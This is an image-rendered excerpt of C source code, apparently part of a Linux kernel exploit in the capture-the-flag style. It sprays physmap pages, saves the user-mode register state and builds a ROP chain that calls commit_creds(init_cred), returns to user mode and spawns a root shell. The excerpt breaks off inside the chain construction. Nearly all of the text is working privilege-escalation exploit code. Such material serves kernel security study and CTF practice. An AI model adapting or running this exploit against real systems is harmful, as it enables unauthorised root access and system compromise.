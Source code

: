 ```c
size_t  *physmap_spray_arr[16000];
size_t  page_size;
size_t     try_hit;
int     dev_fd;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(void)
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error : \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void getRootShell(void)
{   
    puts("\033[32m\033[1m[+] Backing from the kernelspace.\033[0m");

    if(getuid())
    {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(-1);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m");
    system("/bin/sh");
    exit(0);// to exit the process normally instead of segmentation fault
}

void constructROPChain(size_t *rop)
{
    int     idx = 0;

    // gadget to trigger pt_regs and for slide
    for (; idx < (page_size / 8 - 0x30); idx++)
        rop[idx] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;

    // more normal slide code
    for (; idx < (page_size / 8 - 0x10); idx++)
        rop[idx] = ret;
    
    // rop chain
    rop[idx++] = pop_rdi_ret;
    rop[idx++] = init_cred;
    rop[idx++] = commit_creds;
    rop[idx++] = swapgs_restore_regs_and_return_to_usermode;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) getRootShell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;
```